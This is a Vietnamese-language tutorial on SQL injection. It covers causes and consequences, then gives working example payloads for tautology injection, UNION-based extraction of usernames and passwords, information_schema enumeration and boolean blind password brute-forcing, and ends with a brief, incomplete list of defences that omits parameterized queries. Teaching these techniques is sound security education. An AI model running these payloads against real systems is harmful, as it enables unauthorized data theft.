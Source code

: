 # SQL INJECTION
### 1.SQL Injection là gì?
+ SQL Injection là một kỹ thuật tấn công cho phép kẻ tấn công chèn mã SQL vào dữ liệu gửi đến máy chủ.
+ Cuối cùng được thực thi mã trên máy chủ cơ sở dữ liệu
### 2.Nguyên nhân chính của lỗ hổng SQL Injection là gì?
+ Do dữ liệu đầu vào từ người dùng không được kiểm tra kỹ lưỡng
+ Sử dụng các câu lệnh SQL động,thao tác nối dữ liệu người dùng với mã lệnh SQL gốc
### 3.Hậu quả của SQL Injection
+ Làm lộ dữ liệu của database
+ Xóa đi dữ liệu nhạy cảm quan trọng của hệ thống
+ Thay đổi dữ liệu nhạy cảm của hệ thống
+ Có thể kiểm soát máy chủ cơ sở dữ liệu và thực thi lệnh theo ý muốn
### 4.Các dạng tấn công SQL Injection:
#### 1.Retrieving hidden data: 
##### Có thể sửa câu truy vấn để trả về kết quả bổ sung
Ví dụ : input đầu vào là @query = 'john'
Ở đây câu truy vấn sẽ SELECT đến bảng users để lấy dữ liệu có username = 'john'
```Mysql
SELECT * FROM users WHERE username = @query;
```
Nhưng ở đây chúng ta không biết trong bảng users có những username nào.Vì thế chúng ta cần sửa lại input đầu vào để câu truy vấn luôn đúng.@query = 'john' or 1 = 1 --  
```MySQL
SELECT * FROM users WHERE username = 'john' or 1 = 1 -- ;
```
Kết quả trả về sẽ là tất cả dữ liệu của bảng users
#### 2.Retrieving data from other database tables: 
##### Kiểu tấn công này liên quan đến sử dụng UNION để kết hợp 2 hay nhiều câu lệnh SELECT.
Để câu truy vấn UNION hoạt động thì phải đáp ứng được 2 yêu cầu:

+ Các câu truy vấn riêng phải cùng có số cột.
+ Các kiểu dữ liệu trong mỗi cột phải tương thích với nhau.

Ví dụ : input đầu vào là @query = '123'
```MySQL
SELECT name,type FROM category WHERE id = @query;
```
Ở đây mình muốn lấy username,password từ bảng `users`,mình cần check trước là số lượng cột ở câu truy vấn trước.@query có thể:
```MySQL
'123' UNION SELECT NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL,NULL--
etc.
```
Ở đây mình dùng `NULL` vì nó có thể chuyển đổi thành mọi kiểu dữ liệu.Mình sẽ thử lần lượt các câu query cho đến khi server không báo lỗi.
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT NULL,NULL--;
```
Bây giờ mình cần kiểm tra dữ liệu của từng cột.@query có thể:
```MySQL
'123' UNION SELECT 'x',NULL--
'123' UNION SELECT NULL,'x'--
'123' UNION SELECT 'x','y'--
etc.
```
Sau khi xác định được kiểu dữ liệu thì bây giờ mình cần truy vấn lấy dữ liệu ở bảng `users`
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT username,password FROM users--;
```
#### 3.Examining the database:
##### Kiểu tấn công này sẽ lấy được phiên bản và cấu trúc cơ sở dữ liệu
Truy vấn đến `information_schema.tables` để liệt kê các bảng trong cơ sở dữ liệu
```MySQL
SELECT * FROM information_schema.tables
```
Sau đó chúng ta có thể truy vấn `information_schema.columns`để xem các cột dữ liệu của chúng
```MySQL
SELECT * FROM information_schema.columns WHERE table_name='users'
```
Cuối cùng ta có thể truy vẫn đến từng giá trị của bảng
```MySQL
SELECT user_abcd,pasword_efgh FROM users
```
Mình thấy hay kết hợp với câu truy vấn `UNION`
#### 4.Blind SQL Injection:
##### Kiểu tấn công này sẽ không trả về kết quả của câu truy vấn đưa vào
Ví dụ:
```MySQL
SELECT * FROM users WHERE username=@query;
-- Nếu câu truy vấn đúng sẽ in ra giao diện "successfully"
-- Ngược lại sẽ không in gì
```
Bây giờ mình thử xâm nhập:
```MySQL
SELECT * FROM users WHERE username='admin';
-- hiện thị "successfully"
SELECT * FROM users WHERE username='admin' AND 1 = 2;
-- không hiện thị
SELECT * FROM users WHERE username='admin' AND 1=1;
-- hiện thị "successfully"
```
Gỉa sử mình biết trong cơ sở dữ liệu có bảng `users` và có username = 'admin',mình cần tìm ra password.
Ban đầu mình cần tìm ra độ dài của password @length = 1:
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select 'pwd' from users where username = 'admin' AND LENGTH(password)>@length)='pwd';
-- hiện thị "successfully"
```
Mình cần tăng @length đến khi nào không hiện thị `successfully`,giả sử length =10 bây giờ mình cần tìm password bằng cách cắt và so sánh từng kí tự 1.
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,1,1) from users where username = 'admin')='a';
-- không hiện thị
-- Chỗ này mình cần thay đổi giá trị 'a' đến khi hiện thị
```
Mình dùng `Bruteforce` để gửi các payload.Ở đây có 2 payload là vị trí của từng ký tự và payload để so sánh (a,b) 
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,$a$,1) from users where username = 'admin')='$b$';
```
Chạy xong sẽ tìm được password!
### 5.Cách phòng chống SQL Injection:
+ **Lọc dữ liệu từ người dùng:** Ta sử dụng filter để lọc các ký tự đặc biệt(;') hoặc các từ khóa(UNION,SELECT)
+ **Không hiện thị exception,message lỗi:** Hacker có thể dự vào message lỗi để tìm ra cấu trúc dữ liệu
+ **Mã hóa dữ liệu trong database   :** Điều này làm cho hacker tìm được,những khó để sử dụng
